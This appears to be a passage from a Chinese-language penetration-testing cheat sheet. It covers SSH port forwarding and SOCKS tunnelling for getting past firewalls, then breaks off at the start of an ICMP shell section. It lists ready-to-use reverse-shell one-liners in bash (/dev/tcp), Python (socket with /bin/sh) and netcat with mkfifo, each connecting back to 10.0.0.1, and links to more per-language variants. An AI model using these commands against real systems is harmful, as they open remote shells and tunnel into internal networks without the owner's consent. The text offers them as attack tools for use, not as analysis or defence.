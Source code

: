 ####ssh通道  
http://staff.washington.edu/corey/fw/ssh-port-forwarding.html

1、端口转发
```
本地访问127.0.0.1:port1就是host:port2(用的更多)
ssh -CfNg -L port1:127.0.0.1:port2 user@host    #本地转发

访问host:port2就是访问127.0.0.1:port1
ssh -CfNg -R port2:127.0.0.1:port1 user@host    #远程转发

可以将dmz_host的hostport端口通过remote_ip转发到本地的port端口
ssh -qTfnN -L port:dmz_host:hostport -l user remote_ip   #正向隧道，监听本地port

可以将dmz_host的hostport端口转发到remote_ip的port端口
ssh -qTfnN -R port:dmz_host:hostport -l user remote_ip   #反向隧道，用于内网穿透防火墙限制之类
```

2、socks
```
socket代理:
ssh -qTfnN -D port remotehost
```
![](/sourcepictures/2017/11/06/3_proxy/8.jpg)

参考redrain大牛的文章：http://drops.wooyun.org/tips/5234

###获取shell  
####常规shell反弹  
几个常用：  
```python
1、bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

2、python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

3、rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

各种语言一句话反弹shell：
http://wiki.wooyun.org/pentest:%E5%90%84%E7%A7%8D%E8%AF%AD%E8%A8%80%E4%B8%80%E5%8F%A5%E8%AF%9D%E5%8F%8D%E5%BC%B9shell

####突破防火墙的imcp_shell反弹

有时候防火墙可能对tcp进行来处理，然而对imcp并没有做限制的时候，就可以来一波~  
kali运行(其中的ip地址填写为目标地址win03)：  